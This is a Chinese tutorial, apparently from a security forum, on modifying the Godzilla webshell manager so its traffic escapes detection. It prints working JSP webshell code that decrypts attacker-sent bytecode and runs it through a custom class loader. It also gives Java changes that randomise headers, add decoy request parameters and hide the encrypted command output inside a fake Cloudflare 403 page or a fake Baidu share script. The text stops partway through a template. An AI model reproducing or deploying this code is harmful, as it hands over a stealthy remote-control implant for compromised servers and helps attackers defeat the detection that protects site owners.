# 深入解析哥斯拉二开的流量混淆技术-先知社区

> **来源**: https://xz.aliyun.com/news/17142  
> **文章ID**: 17142

---

# 深入解析哥斯拉二开的流量混淆技术

## 环境搭建

首先就是基于工具 Godzilla\_ekp1.1.jar 开发，附上作者的链接  
<https://github.com/kong030813/Z-Godzilla_ekp>

首先把 jar 包反编译后我们自己创建一个目录

  
然后创建一个 lib 目录放入我们的 jar，添加为依赖



然后生成一工件的配置


## 哥斯拉二开目的

首先就是我们需要了解对应文件的作用，那我们就要自己清楚二开的优化点

本次二开优化在于

流量规避

免杀木马

增加 RSA 加密逻辑

当然原项目已经实现了一部分，我们需要的就是读懂逻辑，然后加一点还需要增加的东西，相当于个性化

流量规避，我们就需要了解哥斯拉的流量是怎么样的，我们分开一个一个分析

## 流量规避

首先我们需要目标哥斯拉目前明显的流量特征

首先我们生成一个木马后使用 bp 抓取它的流量



修改为 bp 的代理端口

### ua，accept 弱特征

#### 修改逻辑

这些都是弱特征了，我们对应到代码部分，这里就看到新代码了，我们直接在原工具上修改



这个是我们的响应部分  
在添加我们的 webshell 的时候会初始化

```
initAddShellValue:286, ShellSetting (core.ui.component.frame)
initShellContent:219, ShellSetting (core.ui.component.frame)
<init>:206, ShellSetting (core.ui.component.frame)
addShellMenuItemClick:173, MainActivity (core.ui)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
actionPerformed:209, automaticBindClick$4 (util)
fireActionPerformed:2022, AbstractButton (javax.swing)
actionPerformed:2348, AbstractButton$Handler (javax.swing)
fireActionPerformed:402, DefaultButtonModel (javax.swing)
setPressed:259, DefaultButtonModel (javax.swing)
doClick:376, AbstractButton (javax.swing)
doClick:882, BasicMenuItemUI (javax.swing.plaf.basic)
```

```
private void initAddShellValue() {
    this.shellContext = new ShellEntity();
    this.urlTextField.setText("http://127.0.0.1/shell.jsp");
    this.passwordTextField.setText("pass");
    this.secretKeyTextField.setText("key");
    this.proxyHostTextField.setText("127.0.0.1");
    this.proxyPortTextField.setText("8888");
    this.connTimeOutTextField.setText("3000");
    this.readTimeOutTextField.setText("60000");
    this.remarkTextField.setText(EasyI18N.getI18nString("备注"));
    this.headersTextArea.setText("User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
");
    this.leftTextArea.setText("");
    this.rightTextArea.setText("");
    if (this.currentGroup == null) {
        this.currentGroup = "/";
    }

}
```

我们这里修改一下 ua 和 accept，看弄成随机的，比如在一个数组里面挑选我们的 ua 头

先简单修改为

```
private void initAddShellValue() {
    this.shellContext = new ShellEntity();
    this.urlTextField.setText("http://127.0.0.1/shell.jsp");
    this.passwordTextField.setText("pass");
    this.secretKeyTextField.setText("key");
    this.proxyHostTextField.setText("127.0.0.1");
    this.proxyPortTextField.setText("8888");
    this.connTimeOutTextField.setText("3000");
    this.readTimeOutTextField.setText("60000");
    this.remarkTextField.setText(EasyI18N.getI18nString("备注"));

    // 生成随机 User-Agent 和 Accept 头
    String userAgent = getRandomUserAgent();
    String acceptHeader = getRandomAcceptHeader();

    this.headersTextArea.setText(
        "User-Agent: " + userAgent + "
" +
        "Accept: " + acceptHeader + "
" +
        "Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
"
    );

    this.leftTextArea.setText("");
    this.rightTextArea.setText("");
    if (this.currentGroup == null) {
        this.currentGroup = "/";
    }
}

private String getRandomUserAgent() {
    String[] userAgents = {
        "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36",
        "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
        "Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.0 Mobile/15E148 Safari/604.1",
        "Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; AS; rv:11.0) like Gecko",
        "Mozilla/5.0 (Linux; Android 13; SM-G990B) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Mobile Safari/537.36",
        "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Firefox/102.0"
    };
    return userAgents[new Random().nextInt(userAgents.length)];
}

private String getRandomAcceptHeader() {
    String[] acceptHeaders = {
        "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
        "application/json,text/plain,*/*;q=0.5",
        "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "image/webp,image/apng,image/jpeg,image/png,*/*;q=0.8",
        "application/xml;q=0.9,text/html;q=0.8,text/plain;q=0.7,image/webp;q=0.6"
    };
    return acceptHeaders[new Random().nextInt(acceptHeaders.length)];
}
```

#### 效果

我们抓流量的包



这是第一次，我们再连一个看看有没有变化



可以看到是有变化的

### cookie&请求响应包

我们观察请求和响应的包





#### cookie

首先就是 cookie 的问题，末尾一直有一个分号，我们需要去除

观察 cookie 生成的地方



这个很好修改，直接删除就 ok

#### 请求包

然后我们观察响应和请求的包

首先就是请求的包

```
POST /test/index.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Cookie: JSESSIONID=7B450C10D69EFD57E7076BCB7CDAF777;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Host: localhost:8888
Content-type: application/x-www-form-urlencoded
Content-Length: 70
Connection: keep-alive

a=23TvEqxgQ%2FPyoe58lSA1qJofNAAPIwPs9dVmUCuhLdWb%2BEPDmNB0nqmAlpejW7Kr
```

就是 pass+一堆东西（我们发送的数据）

这个我们可以尝试修改一下，比如加点东西混淆这个请求

对应原代码还是在



最后想着伪造一个普通的请求

```
private void initAddShellValue() {
    this.shellContext = new ShellEntity();
    this.urlTextField.setText("http://127.0.0.1/shell.jsp");
    this.passwordTextField.setText("pass");
    this.secretKeyTextField.setText("key");
    this.proxyHostTextField.setText("127.0.0.1");
    this.proxyPortTextField.setText("8080");
    this.connTimeOutTextField.setText("3000");
    this.readTimeOutTextField.setText("60000");
    this.remarkTextField.setText(EasyI18N.getI18nString("备注"));

    // 生成随机 User-Agent 和 Accept 头
    String userAgent = getRandomUserAgent();
    String acceptHeader = getRandomAcceptHeader();

    this.headersTextArea.setText(
            "User-Agent: " + userAgent + "
" +
                    "Accept: " + acceptHeader + "
" +
                    "Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
"
    );
    this.leftTextArea.setText(generateImageRequestParam());
    this.rightTextArea.setText(generateRandomJsRequest());

    if (this.currentGroup == null) {
        this.currentGroup = "/";
    }
}
private String generateImageRequestParam() {
    String[] words = {"photo", "image", "picture", "snapshot", "capture"};
    String[] extensions = {"png", "jpg", "jpeg", "gif", "bmp", "webp"};

    Random random = new Random();
    String paramName = words[random.nextInt(words.length)]; // 选一个图片相关单词作为参数名
    String extension = extensions[random.nextInt(extensions.length)]; // 选一个图片后缀
    long timestamp = System.currentTimeMillis(); // 生成时间戳

    return paramName + "=" + timestamp + "." + extension;
}

private String generateRandomJsRequest() {
    String[] jsFiles = {"script", "main", "app", "loader", "init"};
    Random random = new Random();
    String jsFileName = jsFiles[random.nextInt(jsFiles.length)];

    return jsFileName + ".js";
}
```

我们看看效果

好的一直初始失败，看了包就懂了  


没有加&符号  
修改了一下

```
this.leftTextArea.setText(generateImageRequestParam()+"&");
this.rightTextArea.setText("&"+generateRandomJsRequest());
```



好的兄弟，又有点 bug，我们再次去修改一下

改成

```
private String generateRandomJsRequest() {
    String[] paramNames = {"module", "script", "file", "source", "loader"};
    String[] jsFiles = {"script", "main", "app", "loader", "init"};

    Random random = new Random();
    String paramName = paramNames[random.nextInt(paramNames.length)]; // 随机选取一个参数名称
    String jsFileName = jsFiles[random.nextInt(jsFiles.length)]; // 随机选取一个 JS 文件名称

    return paramName + "=" + jsFileName + ".js";
}

```



也算是成功了大师

#### 响应包

我们观察响应包

```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 76
Date: Wed, 05 Mar 2025 06:15:43 GMT

5595C2FDA961234F0h0HUnRH119WMHczGxvmq6+pe38KagUIvGq+6LO5lrc=F244A0647264C245
```

这个响应的话可以看到格式很有规律

a+b+c

当然前人已经发现了

md5 前十六位+base64+md5 后十六位

而这个响应对应的代码是在我们的模板文件中

```
response.getWriter().write(md5.substring(0, 16));

response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));

response.getWriter().write(md5.substring(16));
```

这里我们直接修改模板文件？

直接修改了是不可以的，因为这个发送的数据后端是会处理的，如果直接乱修改，后端是会报错的

我们需要看到后端处理部分

在初始化的时候

```
public void init(ShellEntity context) {
    this.shell = context;
    this.http = this.shell.getHttp();
    this.key = this.shell.getSecretKeyX();
    this.pass = this.shell.getPassword();
    String findStrMd5 = functions.md5(this.pass + this.key);
    this.findStrLeft = findStrMd5.substring(0, 16).toUpperCase();
    this.findStrRight = findStrMd5.substring(16).toUpperCase();
    try {
        this.encodeCipher = Cipher.getInstance("AES");
        this.decodeCipher = Cipher.getInstance("AES");
        this.encodeCipher.init(1, new SecretKeySpec(this.key.getBytes(), "AES"));
        this.decodeCipher.init(2, new SecretKeySpec(this.key.getBytes(), "AES"));
        this.payload = this.shell.getPayloadModule().getPayload();
        if (this.payload != null) {
            this.http.sendHttpResponse(this.payload);
            this.state = true;
        } else {
            Log.error("payload Is Null");
        }
    } catch (Exception e) {
        Log.error(e);
        return;
    }
}
```

会调用 http 的 sendHttpResponse 发送我们的 payload  
最后会来到我们的 ReadAllData 方法

```
protected void ReadAllData(InputStream inputStream) throws IOException {
    int maxLen = 0;
    try {
        if (this.headerMap.get("Content-Length") != null && this.headerMap.get("Content-Length").size() > 0) {
            maxLen = Integer.parseInt(this.headerMap.get("Content-Length").get(0));
            this.result = this.ReadKnownNumData(inputStream, maxLen);
        } else {
            this.result = this.ReadUnknownNumData(inputStream);
        }
    } catch (NumberFormatException e) {
        this.result = this.ReadUnknownNumData(inputStream);
    }
    this.result = this.shellEntity.getCryptionModule().decode(this.result);
}
```

我们传入的数据是一个根本看不懂的东西，还需要 decode

因为我们是 base64 加密器

```
public byte[] decode(byte[] data) {
    try {
        data = functions.base64Decode(this.findStr(data));
        return this.decodeCipher.doFinal(data);
    } catch (Exception e) {
        Log.error(e);
        return null;
    }
}
```

先解码，不过解码的时候可以看见还被 findStr 处理了

```
public String findStr(byte[] respResult) {
    String htmlString = new String(respResult);
    return functions.subMiddleStr(htmlString, this.findStrLeft, this.findStrRight);
}
```

也就是只截取我们中间的字符，而左边右边的相当于一个标识符吧



然后对这部分数据进行处理

我们需要完成逻辑是首先回显页面肯定要修改的，然后中间的数据的话任然需要传入回我们的后端

首先我们可以修改的是匹配的规则，思考一下我们的 jsp 木马模板可以如何修改呢

首先我们看木马生成的过程

都在

```
public static byte[] GenerateShellLoder(String shellName, String pass, String secretKey, boolean isBin) {
    byte[] data = null;
    try {
        // 读取全局代码模板（根据 isBin 选择 raw 或 base64 版本）
        InputStream inputStream = Generate.class.getResourceAsStream("template/" + shellName + (isBin ? "raw" : "base64") + "GlobalCode.bin");
        String globalCode = new String(functions.readInputStream(inputStream));
        inputStream.close();

        // 替换模板中的 {pass} 和 {secretKey} 为传入的参数
        globalCode = globalCode.replace("{pass}", pass).replace("{secretKey}", secretKey);

        // 读取核心代码模板（同样根据 isBin 选择 raw 或 base64 版本）
        inputStream = Generate.class.getResourceAsStream("template/" + shellName + (isBin ? "raw" : "base64") + "Code.bin");
        String code = new String(functions.readInputStream(inputStream));
        inputStream.close();

        // 通过弹窗让用户选择文件后缀（如 .jsp、.php、.aspx 等）
        Object selectedValue = GOptionPane.showInputDialog(null, "suffix", "selected suffix", 1, null, SUFFIX, null);
        if (selectedValue != null) {
            String suffix = (String) selectedValue;

            // 读取相应后缀的模板文件，例如 shell.jsp、shell.php
            inputStream = Generate.class.getResourceAsStream("template/shell." + suffix);
            String template = new String(functions.readInputStream(inputStream));
            inputStream.close();

            // 如果是某种特定的后缀（例如 HTML），对 < 和 > 进行转义，防止 XSS
            if (suffix.equals(SUFFIX[1])) {
                globalCode = globalCode.replace("<", "&lt;").replace(">", "&gt;");
                code = code.replace("<", "&lt;").replace(">", "&gt;");
            }

            // 如果处于“上帝模式”，将代码转换为 Unicode 进行隐藏
            // 否则直接替换模板中的 {globalCode} 和 {code}
            template = ApplicationContext.isGodMode()
                    ? template.replace("{globalCode}", functions.stringToUnicode(globalCode))
                              .replace("{code}", functions.stringToUnicode(code))
                    : template.replace("{globalCode}", globalCode)
                              .replace("{code}", code);

            // 将最终生成的 shell 代码转换为字节数组
            data = template.getBytes();
        }
    } catch (Exception e) {
        // 发生异常时记录日志
        Log.error(e);
    }
    return data;
}

```

首先是我们的全局代码

```
String xc = "{secretKey}";
String pass = "{pass}";
String md5 = md5(pass + xc);

class X extends ClassLoader {
    public X(ClassLoader z) {
        super(z);
    }

    public Class Q(byte[] cb) {
        return super.defineClass(cb, 0, cb.length);
    }
}

public byte[] x(byte[] s, boolean m) {
    try {
        javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
        c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
        return c.doFinal(s);
    } catch (Exception e) {
        return null;
    }
}

public static String md5(String s) {
    String ret = null;
    try {
        java.security.MessageDigest m = java.security.MessageDigest.getInstance("MD5");
        m.update(s.getBytes(), 0, s.length());
        ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
    } catch (Exception e) {}
    return ret;
}

public static String base64Encode(byte[] bs) throws Exception {
    Class base64;
    String value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
        value = (String) Encoder.getClass().getMethod("encodeToString", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Encoder");
            Object Encoder = base64.newInstance();
            value = (String) Encoder.getClass().getMethod("encode", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
        } catch (Exception e2) {}
    }
    return value;
}

public static byte[] base64Decode(String bs) throws Exception {
    Class base64;
    byte[] value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
        value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Decoder");
            Object decoder = base64.newInstance();
            value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
        } catch (Exception e2) {}
    }
    return value;
}

```

然后是通信代码

```
try {
    byte[] data = base64Decode(request.getParameter(pass));
    data = x(data, false);

    if (session.getAttribute("payload") == null) {
        session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
    } else {
        request.setAttribute("parameters", data);
        java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
        Object f = ((Class) session.getAttribute("payload")).newInstance();

        f.equals(arrOut);
        f.equals(pageContext);

        response.getWriter().write(md5.substring(0, 16));
        f.toString();
        response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));
        response.getWriter().write(md5.substring(16));
    }
} catch (Exception e) {
}

```

我们需要修改的就是这个通信模块的

我们需要让数据合理的输出

这里感觉作者已经做得很牛了，也不需要改了  
当然自己还是小改了一下

```
try {
    // 解码请求参数
    byte[] data = base64Decode(request.getParameter(pass));
    data = x(data, false);

    // 检查 session 是否已经存储 payload
    if (session.getAttribute("payload") == null) {
        session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
    } else {
        // 处理已存储的 payload
        request.setAttribute("parameters", data);
        java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
        Object f = ((Class) session.getAttribute("payload")).newInstance();

        // 执行无意义的 equals 以混淆分析
        f.equals(arrOut);
        f.equals(pageContext);
        response.setContentType("text/html");

        // 返回处理后的数据
        String wafMessage = "Access Denied - Request Blocked by Security Policy";
        String wafPage = "<html><head><title>403 Forbidden</title></head><body style='text-align:center;font-family:sans-serif;'>" +
                "<h1>403 Forbidden</h1><p>" + wafMessage + "</p>" +
                "<hr><p>Cloudflare Ray ID: " + (System.currentTimeMillis() & 0xFFFFFF) + "</p>" +
                "<!-a-" + base64Encode(x(arrOut.toByteArray(), true)) + "-a->" +
                "</body></html>";
        response.getWriter().write(wafPage);
    }

} catch (Exception e) {
}
```

改一下后端的匹配逻辑就好了

我们看看原作的模板

```
<%
    try {
        // 获取并解码传入的 base64 参数
        byte[] data = base64Decode(request.getParameter(pass).getBytes());
        data = base64Decode(data); // 再次解码
        data = x(data, false); // 使用 AES 解密

        // 如果 session 中没有 payload，则加载字节码
        if (session.getAttribute("payload") == null) {
            session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
        } else {
            // 如果 payload 存在，则继续处理
            request.setAttribute("parameters", data);

            // 创建 ByteArrayOutputStream 用于存储数据
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();

            // 通过反射实例化 payload
            Object f = ((Class) session.getAttribute("payload")).newInstance();

            // 执行一些无意义的操作（这里只是防止错误的代码）
            f.equals(arrOut);
            f.equals(pageContext);

            // 获取 MD5 的前 5 个字符
            String left = md5.substring(0, 5).toLowerCase();

            // 替换字符串中的部分内容
            String replacedString = "var Rebdsek_config=".replace("bdsek", left);

            // 设置响应的内容类型为 HTML
            response.setContentType("text/html");

            // 输出 HTML 页面的头部和开始部分
            response.getWriter().write("<!DOCTYPE html>");
            response.getWriter().write("<html lang="en">");
            response.getWriter().write("<head>");
            response.getWriter().write("<meta charset="UTF-8">");
            response.getWriter().write("<title>{title}</title>");
            response.getWriter().write("</head>");
            response.getWriter().write("<body>");

            // 输出嵌入的 JavaScript 代码
            response.getWriter().write("<script>");
            response.getWriter().write("<!-- Baidu Button BEGIN");
            response.getWriter().write("<script type="text/javascript" id="bdshare_js" data="type=slide&amp;img=8&amp;pos=right&amp;uid=6537022" ></script>");
            response.getWriter().write("<script type="text/javascript" id="bdshell_js"></script>");
            response.getWriter().write("<script type="text/javascript">");
            response.getWriter().write(replacedString); // 输出替换后的 JavaScript 代码
            f.toString(); // 执行某些操作
            response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true))); // 输出加密数据
            response.getWriter().write(";");
            response.getWriter().write("document.getElementById("bdshell_js").src = "http://bdimg.share.baidu.com/static/js/shell_v2.js?cdnversion=" + Math.ceil(new Date()/3600000);");
            response.getWriter().write("</script>");
